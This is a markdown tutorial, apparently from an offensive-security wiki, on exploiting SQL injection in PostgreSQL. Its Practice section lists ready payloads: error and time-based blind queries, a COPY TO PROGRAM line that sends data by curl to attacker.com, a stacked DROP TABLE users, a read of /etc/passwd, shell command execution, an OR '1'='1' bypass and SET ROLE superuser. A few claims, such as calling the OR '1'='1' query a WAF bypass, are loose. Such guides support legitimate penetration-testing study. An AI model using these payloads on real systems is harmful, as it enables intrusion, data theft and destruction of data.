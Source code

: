```yaml
---
title: 'Exploiting PostgreSQL SQL Injections: Advanced Techniques'
description: Learn advanced techniques for exploiting SQL injections in PostgreSQL,
  including error-based, blind, and privilege escalation methods.
keywords:
- PostgreSQL
- SQL Injection
- error-based
- blind injection
- time-based
- stacked query
- file manipulation
- command execution
- privilege escalation
---
```


# PostgreSQL

## Context

This article focuses on teaching operational techniques for exploiting SQL Injection vulnerabilities specifically in PostgreSQL databases. It's designed for readers who are already familiar with SQL syntax, database schema, and authentication mechanisms. This content falls under the broader category of SQL Injection techniques.

## Theory

### SQL Comment Syntax in PostgreSQL

PostgreSQL supports two main comment syntaxes. The double dash `--` allows for single-line comments, while the block comment syntax `/* */` is used for multi-line comments. Understanding this can help in crafting or obfuscating SQL Injection payloads.

### Database Version Identification

To identify the version of PostgreSQL in use, you can execute the `version()` function. This function returns the full version string of the database, which is crucial for tailoring specific exploits.

### Current Database Functions

Several functions can be used to retrieve the currently active database and user context:
- `CURRENT_DATABASE()`: Returns the name of the active database.
- `user`, `current_user`, `session_user`: These functions return the current, session, or logged-in user respectively.

### User Identification Functions

Identifying the user logged into the database can provide insights into roles and permissions. Functions like `user`, `current_user`, and `session_user` are valuable for extracting this information.

### System Catalog Tables

PostgreSQL utilizes a set of system catalog tables that store metadata about databases, users, roles, and more:
- `pg_user`, `pg_roles`: Contain details about users and roles.
- `pg_database`: Lists all databases in the cluster.
- `pg_class`, `pg_tables`: Contain information about tables.

### File and Directory Functions

PostgreSQL has functions for accessing the filesystem:
- `pg_read_file()`: Reads files from the server's file system.
- `pg_ls_dir()`: Lists directory contents.

### String Manipulation Functions

Functions used for string manipulation can assist in constructing dynamic queries or extracting information:
- `array_to_string()`, `string_agg()`: Useful for concatenating arrays or aggregating strings.

### Role and Authorization Management

Commands like `SET ROLE` and `SET SESSION AUTHORIZATION` are pivotal for managing roles and escalating privileges within a database session.

### Information Schema Usage

The `INFORMATION_SCHEMA` provides a structured way to access metadata about database objects, such as tables and columns, making it a fundamental tool for reconnaissance in SQL Injection attacks.

## Practice

### Error-Based SQL Injection

Trigger an error on a PostgreSQL server to reveal database information:

```bash
SELECT 1/0; --
```

This command intentionally causes a division by zero error, which can spill valuable error messages and insight about the database configuration or version.

### Blind SQL Injection

Exploit a vulnerability using a time-based blind SQL injection technique:

```bash
SELECT CASE WHEN (1=1) THEN pg_sleep(5) ELSE pg_sleep(0) END;
```

This query uses conditional logic to cause a delay based on true/false conditions, enabling data extraction over multiple requests.

### Time-Based SQL Injection

Infer data from the database using response timing:

```bash
SELECT pg_sleep(5); --
```

Measure the server's response time to deduce the existence of certain values or data profiles.

### Out-of-Band SQL Injection

Use out-of-band methods to exfiltrate data:

```bash
COPY (SELECT version()) TO PROGRAM 'curl http://attacker.com';
```

This allows sending database data, such as the version, to an external server controlled by the attacker.

### Stacked Query Injection

Execute multiple SQL commands in one request:

```bash
SELECT 1; DROP TABLE users; --
```

This payload demonstrates appending unauthorized SQL commands that could potentially delete critical tables.

### File Manipulation via SQL Injection

Read sensitive server files:

```bash
SELECT pg_read_file('/etc/passwd'); --
```

Retrieve contents from files, providing an avenue to gather sensitive server information or credentials.

### Command Execution via SQL Injection

Execute arbitrary system commands:

```bash
COPY (SELECT '') TO PROGRAM 'id';
```

This command uses the COPY statement in PostgreSQL to execute shell commands, such as obtaining the current user identity on the system.

### WAF Bypass Techniques

Craft queries to bypass Web Application Firewalls:

```bash
SELECT * FROM users WHERE name='admin' OR '1'='1'; --
```

Such queries are designed to circumvent filtering mechanisms by exploiting logical flaws in the check processes.

### Privilege Escalation via SQL Injection

Escalate database privileges:

```bash
SET ROLE superuser; --
```

Gain higher privilege levels within the database, potentially allowing further exploitation and access to more sensitive data.

## Tools

- **sqlmap**
- **pgcli**
- **psql**